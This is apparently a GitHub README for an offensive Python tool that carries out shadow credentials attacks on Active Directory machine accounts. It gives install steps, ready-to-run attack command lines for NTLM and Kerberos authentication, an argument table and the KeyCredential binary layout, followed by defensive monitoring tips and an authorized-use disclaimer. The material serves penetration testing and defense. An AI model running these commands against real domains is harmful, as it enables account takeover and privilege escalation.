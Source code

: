 # Shadow Credentials Attack Tool

A Python implementation for performing shadow credentials attacks against Active Directory machine accounts.

## Features

- ✅ Implements Microsoft's exact binary structure for KeyCredentials
- ✅ Supports both NTLM and Kerberos authentication
- ✅ Generates compliant certificates with Smart Card Logon EKU
- ✅ Preserves existing credentials when adding new ones
- ✅ Enforces LDAPS with certificate validation
- ✅ Secure memory cleanup of sensitive data

## Installation

```bash
git clone https://github.com/404tb/shadowcreds
cd shadowcreds
pip install -r requirements.txt
```

## Usage

### Basic Authentication
```bash
python3 shadowcreds.py -d dc01.corp.local -u username -p password -t TARGET$
```

### Kerberos Authentication
```bash
export KRB5CCNAME=/path/to/ticket.ccache
python3 shadowcreds.py -d dc01.corp.local -k -t TARGET$
```

### Remove Credentials
```bash
python3 shadowcreds.py -d dc01.corp.local -k -t TARGET$ --remove
```

## Command Line Arguments

| Argument          | Description                                      |
|-------------------|--------------------------------------------------|
| `-d`, `--domain`   | Domain controller hostname (required)            |
| `-u`, `--username` | Username for NTLM authentication                 |
| `-p`, `--password` | Password for NTLM authentication                 |
| `-k`, `--kerberos` | Use Kerberos authentication from ccache          |
| `-t`, `--target`   | Target machine name (with $ suffix)              |
| `-o`, `--output`   | Base filename for key material output            |
| `-r`, `--remove`   | Remove shadow credentials                        |
| `-v`, `--verbose`  | Enable verbose output                            |

## Technical Implementation

The tool implements the exact binary structure that Active Directory expects for KeyCredentials:

```text
Version        : 4 bytes
Flags          : 4 bytes
KeyId          : 16 bytes (GUID)
CreationTime   : 8 bytes (FILETIME)
KeyUsage       : 4 bytes
KeyProvider    : 4 bytes
DeviceId       : 16 bytes (GUID)
KeyMaterialLen : 4 bytes
KeyMaterial    : Variable (DER certificate)
CustomDataLen  : 4 bytes
CustomData     : Variable
```

## Defense Considerations

- 🔍 Monitor for unexpected modifications to `msDS-KeyCredentialLink`
- 🔒 Restrict write permissions on machine accounts
- ⚠️ Enable "PKINIT Freshness" protection (Windows Server 2019+)
- 📊 Review certificate authentication events

## References

- [Microsoft KeyCredential Documentation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/a90263c5-75c6-4d90-8f51-d3e8f6b69861)
- [Shadow Credentials Attack Explained](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)

## Legal Disclaimer

This tool is provided for **authorized security testing** and **educational purposes** only. Unauthorized use against systems without explicit permission is illegal.

